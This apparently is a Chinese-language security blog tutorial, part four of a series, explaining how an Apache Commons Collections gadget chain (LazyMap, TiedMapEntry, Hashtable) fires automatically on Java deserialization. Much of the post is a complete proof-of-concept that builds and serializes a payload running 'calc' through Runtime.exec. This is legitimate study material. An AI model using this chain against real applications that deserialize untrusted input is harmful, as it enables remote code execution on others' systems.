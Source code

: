 ```yaml
---
layout: post
title: 'JAVA反序列化四'
subtitle: '自动调用'
date: 2021-09-18
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 JAVA
---
```


在JAVA序列化三中，我们是采用了手动的方式调用lazyMap.get("");

那如何进行自动调用呢？

寻找在readObject时可自动调用Map.get("xx")的类

![](https://1024861435.github.io/assets/img/JAVA反序列化四1.png)

可以看到图中有三个方法可以调用到Map.get("xx")

为啥是找map.get()?

	LazyMap.get是我们触发的入口，那么只要有接受我们的LazyMap，然后再调用此map的get方法就可以成功触发

	TiedMapEntry虽好，但是这个也没触发，因为他没有在readObject的时候调用，当在readObject的时候调用，我们才能让他自动执行，我们再找其他类调用了这个它的

那么又要知道又有谁可以调用这个三个方法呢？

Hashtable在readObject时存在调用HashCode

![](https://1024861435.github.io/assets/img/JAVA反序列化四2.png)

怎么写漏洞代码呢？

![](https://1024861435.github.io/assets/img/JAVA反序列化四3.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化四4.png)

如果向上面那样写的话，会直接在本地执行，并不能产生序列化的数据

在put调用时直接本地执行了，那么如何防止本地执行，且能够序列化数据呢，
	
	反射

最终payload

	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import org.apache.commons.collections.functors.InvokerTransformer;
	import org.apache.commons.collections.keyvalue.TiedMapEntry;
	import org.apache.commons.collections.map.LazyMap;
	
	import javax.xml.crypto.dsig.Transform;
	import java.io.*;
	import java.lang.reflect.Field;
	import java.util.HashMap;
	import java.util.Hashtable;
	import java.util.Map;
	
	public class cusCC {
	    public static void main(String[] args) throws NoSuchMethodException, IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {
	        Transformer[] transforms=new Transformer[]{
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
	        };
	        Transformer transformChain = new ChainedTransformer(transforms);
	        Map innermap = new HashMap();
	        Map lazyMap = LazyMap.decorate(innermap,transformChain);
	//        lazyMap.get("");
	
	        TiedMapEntry entry = new TiedMapEntry(lazyMap,"foo");
	        Hashtable hashtable = new Hashtable();
	        hashtable.put("123","ds");
	        Field table = hashtable.getClass().getDeclaredField("table");
	
	        table.setAccessible(true);
	        Object[] hasharray = (Object[])table.get(hashtable);
	
	        for (Object obj:hasharray){
	            if(obj != null){
	                Field entrykey = obj.getClass().getDeclaredField("key");
	                entrykey.setAccessible(true);
	                entrykey.set(obj,entry);
	            }
	        }
	
	        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cuscc.ser"));
	        oos.writeObject(hashtable);
	        oos.close();
	
	
	        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("cuscc.ser"));
	        ois.readObject();
	        ois.close();
	
	
	    }
	}

我们在hashtable.put()时不要直接传入entry

![](https://1024861435.github.io/assets/img/JAVA反序列化四5.png)

table其实就是hashtable的一个私有变量，存的就是hashtable的数据。本身我们就是要hashtable.put进去一个数据，所以我们先反射拿到hashtable的数据，又table本身是私有变量所以通过table.setAccessible(true)设置成可以访问的

Object[] hasharray = (Object[])table.get(hashtable)然后通过这一步，用get使table得到真正的hashtable的值并赋值给对象hasharray

![](https://1024861435.github.io/assets/img/JAVA反序列化四6.png)

hashtable本身有很多数据而且大部分多少null所以先for循环找到不是null的对象

从这里可以看出hashtable本身就是一个键值对，所以通过getClass().getDeclaredField("key")的方法拿到他的key

然后通过entrykey.set(obj,entry)把entry设置进入hashtable里面，并且对hashtable进行序列化

> 运行结果

![](https://1024861435.github.io/assets/img/JAVA反序列化四7.png)

成功执行反序列化
